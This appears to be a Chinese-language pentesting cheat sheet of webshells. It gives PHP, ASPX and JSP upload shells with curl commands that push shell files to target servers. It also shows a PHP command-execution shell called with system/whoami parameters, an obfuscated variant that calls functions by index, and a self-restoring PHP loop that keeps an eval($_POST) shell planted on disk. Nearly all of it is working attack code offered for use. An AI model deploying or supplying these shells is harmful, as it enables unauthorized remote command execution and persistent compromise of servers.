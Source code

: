 ```php
$c = $_POST["z2"];
$buf = "";
for ($i = 0; $i < strlen($c); $i+= 2) $buf.= urldecode("%" . substr($c, $i, 2));
@fwrite(fopen($f, "w") , $buf);
echo "1";
?>

<?php @move_uploaded_file($_FILES[f][tmp_name], $_FILES[f][name]);
curl -F "f=@/tmp/a.php" http://192.168.1.2/up.php

<?php copy($_FILES['file']['tmp_name'], './' . $_FILES['file']['name']);
curl -X POST -H "Content-Type: multipart/form-data" -F "file=@/tmp/a.php" http://192.168.1.2/up.php

<%@ Page Language="C#" %><%if (Request.Files.Count!=0)Request.Files[0].SaveAs(Server.MapPath("./uploadDemo.aspx"));}%>
curl -X POST -F "file=@path_to_your_file" http://your_server_address/your_aspx_page.aspx

<%Request.Files[0].SaveAs("C:\\windows\temp\\" + Request.Files[0].FileName); %>
<%Request.Files[0].SaveAs(Request["f"]+Request.Files[0].FileName);%>
curl -k  -F "myfile=@t.txt" "http://127.0.0.1/owa/auth/3.aspx"   //-K 忽略证书

低版本.net 2.0
<%@ Page Language="C#" %><% if (Request.Files.Count > 0) Request.Files[0].SaveAs(Server.MapPath("./" + Request.Files[0].FileName)); %>
curl -X POST -F "file=@c:/windows/temp/vm.log" http://192.168.1.3/up.aspx

<%@ page import="java.io.*"%><% request.getPart("file").write(getServletContext().getRealPath("/") + "uploadDemo.jsp"); %>
curl -X POST -F "file=@/path/to/your/file" http://your_server_address/your_upload_page.jsp




<?php
$func = new ReflectionFunction($_GET[m]);
echo $func->invokeArgs(array($_GET[c]));
?>
https://www.g.com/index.php?m=system&c=whoami

<?php function f() { $a = get_defined_functions()['internal'];$s = $a[3]();$b = $a[805]($s);$c = $a[$b];return $a[556]($c, $s); }print f($_GET['id'], $_GET['cmd']);?>

jsp webshell file manage

https://github.com/axylisdead/JFolder2
https://github.com/kaimi-/jsp-server-manager
```

### webshell駐留記憶體

解法：restart
```php
<?php
    ignore_user_abort(true);  // 忽略連線中斷
    set_time_limit(0);  // 設定無執行時間上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
```
